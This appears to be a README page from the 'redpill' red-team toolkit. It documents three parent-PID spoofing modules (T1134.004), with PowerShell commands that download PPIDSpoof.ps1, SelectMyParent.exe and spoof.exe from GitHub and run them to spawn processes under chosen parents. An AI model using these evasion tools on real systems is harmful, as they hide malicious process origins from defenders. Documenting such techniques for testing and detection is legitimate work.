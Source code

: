 ## Module Name
   <b><i>PPIDSpoof.ps1</i></b>

|Function name|Description|Privileges|Notes|
|---|---|---|---|
|PPIDSpoof|Creates a process as a child of a specified process ID.<br />Technique ID: T1134.004 (Access Token Manipulation: Parent PID Spoofing)|User Land|[Screenshot](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Process-Spoofing/PPIDSpoof.png)|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Process-Spoofing/PPIDSpoof.ps1" -OutFile "PPIDSpoof.ps1"
```

```powershell
Import-Module -Name ".\PPIDSpoof.ps1" -Force
```

<br />

Spawns a notepad.exe process as a child of the current process.
```powershell
Start-ATHProcessUnderSpecificParent -ParentId $PID -FilePath notepad.exe
```

Spawns a notepad.exe process as a child of the first explorer.exe process.
```powershell
Get-Process -Name explorer | Select-Object -First 1 | Start-ATHProcessUnderSpecificParent -FilePath notepad.exe
```

Creates a notepad.exe process and then spawns a powershell.exe process as a child of it.
```powershell
Start-Process -FilePath $Env:windir\System32\notepad.exe -PassThru | Start-ATHProcessUnderSpecificParent -FilePath powershell.exe -CommandLine '-Command Write-Host foo'
```

<br />

## Module Name
   <b><i>SelectMyParent.ps1</i></b>

|Binary name|Description|Privileges|Notes|
|---|---|---|---|
|SelectMyParent|Creates a process as a child of a specified process ID.<br />Technique ID: T1134.004 (Access Token Manipulation: Parent PID Spoofing)|Administrator|\*\*\*|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Process-Spoofing/SelectMyParent.exe" -OutFile "SelectMyParent.exe"
```

```powershell
.\SelectMyParent.exe <process-to-use> <pid-to-spoof>

# Spawn notepad.exe using id 32 (calculator)
.\SelectMyParent.exe notepad 32
```

<br />


## Module Name
   <b><i>spoof.ps1</i></b>

|Binary name|Description|Privileges|Notes|
|---|---|---|---|
|spoof|Creates a process as a child of a specified process ID.<br />Technique ID: T1134.004 (Access Token Manipulation: Parent PID Spoofing)|Administrator|\*\*\*|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Process-Spoofing/spoof.exe" -OutFile "spoof.exe"
```

```powershell
.\spoof.exe <process-to-use> <pid-to-spoof>
.\spoof.exe pentestlab.exe 1116
```

